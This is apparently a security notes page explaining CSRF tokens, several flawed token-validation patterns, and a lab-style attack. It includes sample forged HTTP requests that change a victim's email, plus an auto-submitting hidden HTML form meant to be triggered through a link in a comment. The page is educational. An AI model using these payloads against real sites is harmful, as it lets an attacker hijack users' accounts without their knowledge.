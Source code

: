 ```yaml
---
layout: page
title: Cross-Site Request Forgery (CSRF)
parent: Web Application
grand_parent: Attacks
---
```

# {{ page.title }}
{: .no_toc }

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
- TOC
{:toc}
</details>

---
A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When issuing a request to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token.

A common way to share CSRF tokens with the client is to include them as a hidden parameter in a HTML form, for example:

```HTML
<form name="change-email-form" action="/my-account/change-email" method="POST">
	<label>Email</label>
	<input required type="email" name="email" value="example@normal-website.com">
	<input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"> 
	<button class='button' type='submit'> Update email </button>
</form>
```
> Some applications place CSRF tokens in HTTP headers, the way the tokens are transmitted have significant impact on the security mechanism as a whole. More info, [How to prevent CSRF vulnerabilities](https://portswigger.net/web-security/csrf/preventing).

When implemented correctly, CSRF Tokens help protect against CSRF attacks by making it difficult for an attacker to construct a valid request on behalf of a victim. 

## Common flaws in CSRF token validation
CSRF vulnerabilities typically arise due to flawed validation of CSRF tokens.

### Validation depends on request method
Some applications validate the token when a POST method is used but skip validation when a GET method is used.
The attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:
```HTTP
GET /email/change?email=pwned@evil-user.net HTTP/1.1 
Host: vulnerable-website.com Cookie: 

session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

### Validation depends on token being present
Some applications only validate if a token is present but skip validation if no token is supplied

```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 25 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm 

email=pwned@evil-user.net
```

### CSRF token is not tied to the user session
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

### CSRF token is tied to a non-session cookie
In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:

```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv 

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

This situation is harder to exploit but is still vulnerable. If the web site contains any behaviour that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behaviour to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

> The cookie-setting behaviour does not even need to exist within the same web application as the [CSRF vulnerability](https://portswigger.net/web-security/csrf). Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on `staging.demo.normal-website.com` could be leveraged to place a cookie that is submitted to `secure.normal-website.com`.

### CSRF token is simply duplicated in a cookie
In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defence against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state:

```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa 

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

In this situation, the attacker can again perform a CSRF attack if the web site contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behaviour to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

---

## Executing a CSRF attack

### CSRF vulnerability with no defences
Created a webpage that submitted a form as a POST request that contained a secret input with the vulnerable field to the endpoint of a change-email action. Then a link to this website was added in a comment so if a user clicked it, it would send the request and it would just use their previous session token that the browser remembers.

```HTML
<form method="POST" action="https://wwww.example.net/my-account/change-email">
	<input type="hidden" name="email" value="hacked@exploit.com">
</form>

<script>
	document.forms[0].submit();
</script>
```
